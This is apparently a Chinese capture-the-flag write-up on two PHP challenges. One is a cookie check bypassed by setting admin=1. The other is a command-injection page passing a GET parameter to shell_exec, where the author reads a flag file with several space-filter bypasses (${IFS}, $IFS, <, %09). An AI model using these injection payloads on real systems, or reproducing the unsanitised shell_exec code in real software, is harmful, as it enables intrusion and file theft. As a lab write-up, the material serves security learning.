 ```
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

分析源码

判断Cookie中的admin的值弱类型比较是否为1

如果为真，则包含next.php



bp抓包，添加cookie

![image-20250403173016178](./assets/image-20250403173016178.png)

![image-20250403173023298](./assets/image-20250403173023298.png)



访问rasalghul.php

```
 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> 
```

分析源码

GET提交url

并将url的值赋值给变量ip

过滤空格

执行ip



```
?url=ls
```

![image-20250403173227110](./assets/image-20250403173227110.png)



读取根目录

利用${IFS}绕过空格

```
?url=ls${IFS}/
```

![image-20250403173301841](./assets/image-20250403173301841.png)



读取flllllaaaaaaggggggg

```
?url=cat${IFS}/flllllaaaaaaggggggg 
```

![image-20250403173329462](./assets/image-20250403173329462.png)





${IFS}$1也可以绕过空格

```
?url=cat${IFS}$1/flllllaaaaaaggggggg 
```

![image-20250403173352389](./assets/image-20250403173352389.png)





$IFS也可以

```
?url=cat$IFS/flllllaaaaaaggggggg 
```

![image-20250403173410267](./assets/image-20250403173410267.png)





<也可以

```
?url=cat</flllllaaaaaaggggggg 
```

![image-20250403173427967](./assets/image-20250403173427967.png)



%09也可以

```
?url=cat%09/flllllaaaaaaggggggg 
```

![image-20250403173458840](./assets/image-20250403173458840.png)